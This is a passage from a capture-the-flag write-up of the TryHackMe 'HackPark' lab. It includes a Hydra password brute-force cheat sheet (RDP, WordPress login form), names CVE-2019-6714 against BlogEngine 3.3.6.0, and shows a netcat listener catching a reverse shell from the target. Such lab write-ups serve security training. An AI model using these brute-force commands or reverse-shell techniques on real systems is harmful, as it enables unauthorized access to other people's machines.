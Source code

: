 `1qaz2wsx`

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the **http-post-form** that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more.

Below is a mini cheatsheet:

| Command                                                                                                                                      | Description                                                                                                                                                        |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| hydra -P <wordlist> -v <ip> <protocol>                                                                                                       | Brute force against a protocol of your choice                                                                                                                      |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>                                                                 | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>                                                                                      | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.                                                                                                            |

`No answer needed`

## Task 3 Compromise the machine

In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)
undefined

Now you have logged into the website, are you able to identify the version of the BlogEngine?

`3.3.6.0`

Use the [exploit database archive](http://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system.

What is the CVE?

`CVE-2019-6714`

Using the public exploit, gain initial access to the server.

[http://10.10.197.201/admin/app/editor/editpost.cshtml](http://10.10.197.201/admin/app/editor/editpost.cshtml)

Who is the webserver running as?

```
bibo318@parrot:~/CTFs/tryhackme/HackPark$ nc -lnvp 9001
Listening on 0.0.0.0 9001

id
Connection received on 10.10.197.201 49260
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```
